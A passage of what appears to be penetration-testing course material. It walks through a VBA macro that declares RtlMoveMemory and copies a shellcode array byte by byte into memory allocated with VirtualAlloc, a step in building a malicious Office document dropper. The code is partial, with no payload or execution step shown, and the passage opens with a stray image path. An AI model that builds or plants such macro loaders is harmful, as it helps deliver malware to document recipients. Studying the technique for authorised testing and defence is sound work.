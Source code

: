 > Listing 40 - Calling VirtualAlloc from VBA

Now that we've allocated memory with _VirtualAlloc_, we must copy the shellcode bytes into this memory location. This is done using the _RtlMoveMemory_[5](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_77-5) function. MSDN describes this function prototype as:

```
VOID RtlMoveMemory(
  VOID UNALIGNED *Destination,
  VOID UNALIGNED *Source,
  SIZE_T         Length
);
```

> Listing 41 - RtlMoveMemory function prototype

This function takes three variables. The return value along with the first argument may be translated to _LongPtr_, the second uses _Any_, while the last argument may be translated to _Long_.

The _Destination_ pointer points to the newly allocated buffer, which is already a memory pointer, so it may be passed as-is. The _Source_ buffer will be the address of an element from the shellcode array, and must be passed by reference, while the _Length_ is passed by value.

```
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
```

> Listing 42 - Declare statement for RtlMoveMemory

We'll use this API to loop over each element of the shellcode array and create a byte-by-byte copy of our payload.

The loop condition uses the _LBound_[6](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_77-6) and _UBound_[3:1](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_77-3) methods to find the first and last element of the array. This is where our knowledge of _For_ loops helps.

The code snippet is shown in Listing 43.

```
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

....

Dim counter As Long
Dim data As Long

For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
Next counter
```
